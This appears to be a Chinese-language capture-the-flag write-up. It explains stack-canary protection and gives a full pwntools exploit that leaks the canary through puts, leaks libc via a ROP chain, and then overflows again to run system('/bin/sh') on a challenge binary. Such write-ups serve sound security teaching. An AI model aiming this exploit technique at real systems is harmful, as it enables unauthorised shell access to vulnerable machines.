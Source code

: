 # canary

canary是一种用来防护栈溢出的保护机制。其原理是在一个函数的入口处，先从fs/gs寄存器中取出一个4字节(eax)或者8字节(rax)的值存到栈上，当函数结束时会检查这个栈上的值是否和存进去的值一致。为了避免canary值被泄露，其后两bit被设计为00以截断字符串，如果能够覆盖掉截断字符串，如此题就可以将canary的后两位填充，从而利用puts直接泄露当前canary的值，从而和上一题类似泄露libc基址再进行二次溢出执行system("\bin\sh") exp如下。

先使用ROPgadget获取我们需要的

ROPgadget  --binary elf |grep "pop rdi"

ROPgadget  --binary elf |grep ret

~~~
from pwn import *
from LibcSearcher import *
#p = remote('10.212.25.14', 12138)
p = process('./pwn5')
elf = ELF('./pwn5')
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x0400803
ret_addr = 0x040055e
payload = 'b'*(0x28+1) # 多一位填充泄露canary
p.sendafter("make a try!", payload)
p.recvuntil('b'*(0x28))
canary = u64(p.recv(8)) - ord('b')
#print(hex(canary))
payload = b'a'*(0x28) + p64(canary) + b'a'*8 + p64(pop_rdi) + p64(puts_got) +p64(puts_plt) + p64(main_addr) # 弹出rdi存入puts的got地址，调用puts泄露地址
p.sendline(payload)

puts_addr = u64(p.recvline()[:-1].ljust(8, b'\x00'))
print(hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
sys_addr = libc.dump('system') + libc_base
bin_sh_addr = libc.dump('str_bin_sh') + libc_base
payload = 'b'*(0x28+1)
p.sendafter("make a try!", payload)
p.recvuntil('b'*(0x28))
canary = u64(p.recv(8)) - ord('b')
print(hex(canary))
payload = b'a'*(0x28)+ p64(canary) + b'a'*8 + p64(ret_addr) + p64(pop_rdi) +p64(bin_sh_addr) + p64(sys_addr) + b'a'*8 # 溢出
p.sendline(payload)
p.interactive()
~~~

